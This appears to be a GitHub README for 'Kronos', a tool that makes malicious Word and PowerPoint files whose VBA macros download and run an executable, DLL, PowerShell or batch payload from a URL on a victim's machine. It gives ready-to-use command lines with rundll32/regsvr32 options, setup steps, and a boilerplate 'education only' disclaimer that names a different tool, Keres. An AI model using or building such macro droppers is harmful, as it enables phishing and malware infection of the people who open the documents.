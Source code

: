 ![!\[Alt text\](<>)](<2023-12-24 10_34_53-Photos.png>)


Greetings
--------------------------

Kronos is a doc and ppt exploitation tool to deliver Payloads via Vba macros by downloding the PE from a URL 

it generates a docm or pptm , if macros disabled by default ,victim needs to enable macros

for an exe use :

python kronos.py -Url 'https://your.link' --word_file 'if you have a docx file' -PE 'name.exe'

for a dll  use : 

python kronos.py -Url 'https://your.link' --word_file 'if you have a docx file' -PE " {rundll32 or regsvr32} {name.dll} ,{function if needed} "

you can also run a ps1 or bat file 

![!\[Alt text\](<>)](https://github.com/ELMERIKH/Kronos/assets/96123439/e1efc4e7-5b63-4fdc-8076-400eae8b6f85)



setup:
------------

git clone https://github.com/ELMERIKH/Kronos

pip install -r requirements.txt

python3 Kronos.py

DISCLAIMER :
----------------------------------

ME The author takes NO responsibility and/or liability for how you choose to use any of the tools/source code/any files provided. ME The author and anyone affiliated with will not be liable for any losses and/or damages in connection with use of Keres. By using Keres or any files included, you understand that you are AGREEING TO USE AT YOUR OWN RISK. Once again Keres is for EDUCATION and/or RESEARCH purposes ONLY.


